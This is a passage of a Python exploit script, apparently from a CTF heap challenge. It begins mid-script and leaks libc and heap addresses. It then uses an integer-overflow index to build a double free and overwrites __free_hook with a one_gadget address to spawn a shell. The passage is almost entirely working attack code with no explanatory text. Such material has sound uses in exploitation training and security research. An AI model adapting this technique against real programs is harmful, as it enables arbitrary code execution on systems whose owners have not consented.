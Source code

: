 ```python
    sla(b'idx: ', str(idx).encode())

def show(idx):
    menu(3)
    sla(b'idx: ', str(idx).encode())

def edit(idx, content):
    menu(4)
    sla(b'idx: ', str(idx).encode())
    sa(b'content: ', content)

debug('''
   b *$rebase(0xc73) 
   b *$rebase(0xbfb)
''')

for i in range(8):
    add(0x80)
for i in range(8):
    delete(7 - i)
for i in range(7):
    add(0x80)

add(0x10) 
show(7)

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - 160 - 64 - libc.sym['main_arena']
pr('libc.address', libc.address) #leak_libc

one = libc.address + 0x4f302
free_hook = libc.sym['__free_hook']

show(0)
heap_base = u64(rc(6).ljust(8, b'\x00')) - 0x470
pr('heap_base', heap_base) #leak_heap

edit(7, p64(heap_base + 0x3a0))
edit(1, p64(heap_base + 0x310)) #construct double free

idx = ((1 << 63) + 0x42) - (1 << 64)
delete(idx) #int overflow


add(0x10)
edit(8, p64(free_hook) + p64(8))
edit(0, p64(one)) #one
delete(1)


shell()

```

